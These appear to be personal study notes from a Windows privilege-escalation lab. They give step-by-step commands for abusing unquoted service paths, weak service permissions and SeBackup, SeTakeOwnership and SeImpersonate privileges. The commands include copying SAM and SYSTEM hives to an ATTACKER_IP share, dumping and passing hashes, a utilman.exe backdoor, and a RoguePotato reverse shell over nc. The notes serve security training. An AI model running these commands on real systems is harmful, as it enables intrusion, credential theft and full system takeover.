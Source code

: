 Unquoted Service Paths
===
_essentially it is a form of path manipulation, as when the machine runs "disk sorter enterprise" and there is a "disk" program in the programs folder, it will execute this before the actual "Disk Sorter Enterprise" file_
1. create the payload (same msfvenom command as previous)
2. transfer it to c:\MyPrograms as _Disk.exe_
3. grant full permissions to everyone with `icacls Disk.exe /grant Everyone:F`
4. `sc stop "disk sorter enterprise"` + `sc start "disk sorter enterprise"`
5. the listener now catches a shell

Insecure Service Permissions
===
_accesschk_ is used to check for service DACL from the command line
1. `accesschk64.exe -qlc <serviceName>`
2. repeat the same process with the rsv-svc.exe payload generated in the previous 2 'tasks' (transfer + grant access)
3. `sc config THMService binPath= "C:\Users\thm-unpriv\Desktop\sc.exe" obj= LocalSystem` --> to change service's associated executable and account
4. stop + start the service (THMService)
	1. best done from base directory

Windows Privileges
===
`whoami /priv`
### SeBackup/SeRestore
1. To backup SAM and SYSTEM hashes:
 `reg save hklm\sam C:\Users\THMBackup\sam.hive` + `reg save hklm\system C:\Users\THMBackup\system.hive` 
2. `/opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share` to set up SMB server
3. copy files with `copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\` and `copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\`
4. dump the hashes with share$`/opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL`
5. crack the hash `/opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.108.107` / get access as system(shell)

### SeTakeOwnership
_utilman.exe_ --> take ownership of this which is on the lock screen
1. `takeown /f c:\windows\system32\utilman.exe`
2. give yourself full permission over the file with `icacls c:\windows\system32\utilman.exe /grant THMTakeOwnership:F`
3. `copy cmd.exe utilman.exe`
4. next, lock the user account + press ease of access button
(I really like this method!)
 
 ### SeImpersonate/SeAssignPrimaryToken
_RoguePotato_ exploit
1. set up socat `sudo socat tcp-l:135,reuseaddr,fork tcp:10.10.108.107:9999` + `nc -lvnp 4448`
2. `c:\tools\roguepotato\RoguePotato.exe -r 10.11.59.68 -e "C:\tools\nc64 -e cmd.exe 10.11.59.68 4448" -l 9999` run in webshell --> it will spawn a shell in nc listener as nt authority\system

